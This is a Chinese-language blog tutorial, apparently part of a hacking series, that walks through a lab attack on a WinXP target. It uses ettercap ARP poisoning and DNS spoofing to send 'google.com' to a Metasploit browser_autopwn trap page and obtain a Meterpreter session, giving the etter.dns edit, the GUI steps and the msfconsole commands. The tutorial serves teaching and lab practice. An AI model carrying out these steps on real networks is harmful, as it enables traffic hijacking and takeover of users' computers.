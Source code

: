 ```yaml
---
layout: post
category: binghe-code-hack
title: 与DNS欺骗的结合使用
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 与DNS欺骗的结合使用
lock: need
---
```


# 与DNS欺骗的结合使用

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

在《[客户端渗透之——浏览器渗透](https://blog.csdn.net/l1028386804/article/details/86632106)》和《[客户端渗透之——对网站的客户进行渗透](https://blog.csdn.net/l1028386804/article/details/86632147)》中，我们看到了一个传统的browser autopwn攻击以及改进后针对网站用户的攻击。其中，我们受到了一个约束，就是必须要通过某种方式将陷阱链接发送给受害者。在这篇文章中，我们不再向受害者发送任何链接，而是等待他们去浏览自己喜欢的网站。

这种攻击只能在局域网环境。因为若想采用这种方式，首先需要执行ARP欺骗。ARP工作在协议层的第二层，只有在同一个广播域下工作。但如果可以通过某种方式来修改远程受害者主机的hosts文件，我们就可以不用考虑这个限制，这通常被称为一个域欺骗攻击。

## 使用DNS劫持欺骗受害者

首先对受害者发起一个ARP毒化攻击，并执行DNS查询欺骗。因此，如果受害者试图打开一个常用的网站主页，例如http://google.com，结果却是打开了我们设置的browser autopwn服务的陷阱主页，进而使得他的系统遭到了来自陷阱网站的攻击。

## 查找etter.dns文件

我们需要创建一个DNS毒化列表，通过输入如下命令来找到伪造DNS条目保存的文件。

```bash
locate etter.dns

root@binghe:~# locate etter.dns
/etc/ettercap/etter.dns
```

## 创造伪造DNS列表

这里，我们使用的ARP毒化工具为ettercap,首先，找到 etter.dns 文件并创造一个伪造的DNS列表，为了实现这一点，需要修改etter.dns文件中的列表。

```bash
vim /etc/ettercap/etter.dns
```



![img](https://img-blog.csdnimg.cn/20190124203421488.png)

这里，我们加入了一行google.com A 192.168.175.128，这个假冒的DNS条目指向设置了browser autopwn服务的主机IP。因此，受害者并没有进入自己原计划的网站，而是进入了运行着browser autopwn服务的那个缺陷网站。

这样，当受害者发出一个关于域名http://google.com的DNS请求时，这个列表就会把攻击者计算机的IP地址作为响应发送给他。

## 使用ettercap毒化内网

## 启动ettercap

在Kali命令行运行命令：

```bash
ettercap -G
```

启动ettercap图形界面。

![img](https://img-blog.csdnimg.cn/20190124203512151.png)

## 选择网卡接口

依次选择ettercap的Sniff->Unified sniffing...打开选择网卡的弹出框，选择eth0后确定。

![img](https://img-blog.csdnimg.cn/20190124203533985.png)

![img](https://img-blog.csdnimg.cn/2019012420354328.png)

## 扫描目标网络范围

对目标网络范围内的主机IP进行扫描，验证哪些主机处于在线状态，

依次点击hosts->Scan for hosts

![img](https://img-blog.csdnimg.cn/20190124203606592.png)

## 查看在线主机

依次点击Hosts->Hosts list

![img](https://img-blog.csdnimg.cn/20190124203626802.png)

![img](https://img-blog.csdnimg.cn/20190124203635935.png)

可以看到我们靶机IP 192.168.175.130也在结果列表中。

## 配置网关和靶机IP

这里，我们将网关的地址添加到目标2，将靶机IP添加到目标1，以后就将网关看作目标2，将靶机看作目标1。因为我们需要截获靶机发往网关的通信。

![img](https://img-blog.csdnimg.cn/20190124203701243.png)

![img](https://img-blog.csdnimg.cn/20190124203709825.png)

添加后的结果：

![img](https://img-blog.csdnimg.cn/20190124203725796.png)

## 设置ARP Poisoning

依次点击Mitm->ARP poisoning

![img](https://img-blog.csdnimg.cn/2019012420375615.png)

选中Sniff remote connections后确定。

![img](https://img-blog.csdnimg.cn/20190124203820767.png)

## 执行Start Sniffing

依次点击 Start->Start sniffing

![img](https://img-blog.csdnimg.cn/2019012420384134.png)

这时，会输出一个“Unified sniffing already started...”的提示信息

![img](https://img-blog.csdnimg.cn/20190124203859182.png)

## 激活DNS欺骗插件程序

依次点击Plugins->Manage the plugins

![img](https://img-blog.csdnimg.cn/20190124203914611.png)

双击dns_spoof以激活DNS欺骗

![img](https://img-blog.csdnimg.cn/20190124203930789.png)

双击后的效果为：

![img](https://img-blog.csdnimg.cn/20190124203945594.png)

这个插件被激活之后将会发送伪造的DNS数据，这些数据是我们之前在etter.dns中修改过的。因此，无论何时，只要受害者发送某个特定网站域名的DNS请求，攻击就会伪造一个响应，使用etter.dns文件中假冒的DNS条目来代替真实的条目。

## 启动陷阱网站

接下来在80端口启动陷阱网站

```bash
msfconsole
use auxiliary/server/browser_autopwn
set LHOST 192.168.175.128
set SRVPORT 80
set URIPATH /
exploit
```

![img](https://img-blog.csdnimg.cn/20190124204053680.png)

## 在靶机上访问链接

在靶机上打开链接http://google.com

![img](https://img-blog.csdnimg.cn/20190124204120444.png)

这样，我们就可以拿到靶机的Meterpreter。

## 查看靶机的ARP信息

![img](https://img-blog.csdnimg.cn/20190124204141828.png)

可以看到攻击机和网关的Mac地址一样，这是我们对内网进行了ARP毒化的结果。

**最后，这种方式只能用在局域网，如果想在一个广域网中实现这种攻击，就需要修改受害者的主机文件。这样当受害者试图访问一条执行的URL时，篡改过的主机文件条目将这个URL定向到那个恶意autopwn服务器上。**



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
